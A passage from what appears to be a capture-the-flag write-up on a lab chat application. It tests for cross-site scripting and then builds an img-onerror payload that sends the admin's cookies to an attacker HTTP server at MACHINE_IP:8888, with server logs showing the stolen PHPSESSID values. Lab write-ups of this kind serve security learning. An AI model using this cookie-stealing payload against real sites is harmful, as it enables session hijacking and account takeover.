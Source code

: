 Firstly lets test again for an xss vulnerability, we can do this using `<script>alert("XSS)</script>` this will create a popup that says XSS if it works

![XSS](/assets/img/CTFs/Whats_Your_Name/xss_chat.jpg)

We can see it does in fact work

![XSS](/assets/img/CTFs/Whats_Your_Name/xss_alert.jpg)

When we take a look at the source page we can see our message appear here

![source](/assets/img/CTFs/Whats_Your_Name/chat_source.jpg)

We can see our message in this case "test" appear between the `div` tags, this shows us that our XSS is going to be dom based

When we create our xss exploit we should close the `div` tag as well 

We are going to again steal the cookies of the admin, to do this our payload will look 

```html
</div> <img src=x onerror="location.href='http://MACHINE_IP:8888/?c='+document.cookie">
```

Before we launch this attack we will open another http server this time on port 8888

Now it is time to send payload

![XSS](/assets/img/CTFs/Whats_Your_Name/xss_cookie_steal.jpg)

Now back on the http server we should have two connections one from the admin user and one form ourselves since the page was reloaded

```console
┌──(kali㉿kali)-[~/Whats_Your_Name]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.211.158 - - [24/Feb/2025 14:57:40] "GET /?c=PHPSESSID=7a91sbbjlrt5c94msas7ufkbt1 HTTP/1.1" 200 -
10.6.48.82 - - [24/Feb/2025 14:57:47] "GET /?c=PHPSESSID=453tet80nn6fpfo60t1tm1lmhk HTTP/1.1" 200 -
```
